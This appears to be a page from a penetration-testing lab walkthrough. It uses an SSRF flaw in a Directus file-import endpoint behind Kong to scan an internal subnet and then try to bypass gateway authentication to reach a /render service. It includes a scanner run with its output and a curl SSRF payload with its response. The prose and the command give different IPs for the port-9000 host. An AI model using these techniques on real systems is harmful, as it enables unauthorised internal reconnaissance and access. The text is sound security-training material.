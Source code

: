 kali@kali:~$ ./ssrf_subnet_scanner.py -t http://apigateway:8000/files/import --timeout 5
Trying host: 172.16.16.1
        22       ???? - returned parse error, potentially open non-http
        8000     OPEN - returned 404
Trying host: 172.16.16.2
        8000     OPEN - returned 404
        8001     OPEN - returned permission error, therefore valid resource
Trying host: 172.16.16.3
        5432     OPEN - socket hang up, likely non-http
Trying host: 172.16.16.4
        8055     OPEN - returned permission error, therefore valid resource
Trying host: 172.16.16.5
        9000     OPEN - returned 404
Trying host: 172.16.16.6
        6379     ???? - returned parse error, potentially open non-http
Listing 36 - Subnet scanning results

These results are promising. We know the Kong API Gateway is running on 8000. This port is open on the first two hosts. Kong runs its Admin API on port 8001, restricted to localhost. Since 172.16.16.2 has ports 8000 and 8001 open, we can assume that it is running the Kong API Gateway. The host on 172.16.16.1 is likely the network gateway or an external network interface.

This environment should always have six hosts but the IP assigned to each host might vary. Reverting the VM can also reassign the hosts' IP addresses.

The default port for Directus is 8055, which aligns with host four. Port 5432 is the default port for PostgreSQL. Port 6379 is the default port for REDIS. Using this information, we now have a better picture of the internal network.

Figure 4: Updated network diagram
Figure 4: Updated network diagram
We still have one host running an unknown HTTP service on port 9000. However, the SSRF vulnerability allows us to verify which backend servers are hosting the public endpoints we have identified.


##### Render API Auth Bypass
We discovered the /render service during our initial enumeration. However, the service required authentication via the API gateway. Developers sometimes rely on a gateway or reverse proxy to handle authentication or restrict access to an API. Perhaps we can use the SSRF to bypass the API gateway and call the render service directly.

However, we first need to figure out which backend server is hosting the render service. It doesn't seem like the render service is running on the Directus host, so we will turn our attention to the host with the unknown service on port 9000. Let's use the SSRF vulnerability to check if http://172.16.16.3:9000/render is valid.

kali@kali:~$ curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/render"}' http://apigateway:8000/files/import
HTTP/1.1 500 Internal Server Error
Content-Type: application/json; charset=utf-8
Content-Length: 108
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"6c-qz7bVW5hKPsQy2fT0mRPx8X4tuc"
Date: Thu, 25 Feb 2021 16:59:49 GMT
X-Kong-Upstream-Latency: 33
X-Kong-Proxy-Latency: 1
Via: kong/2.2.1
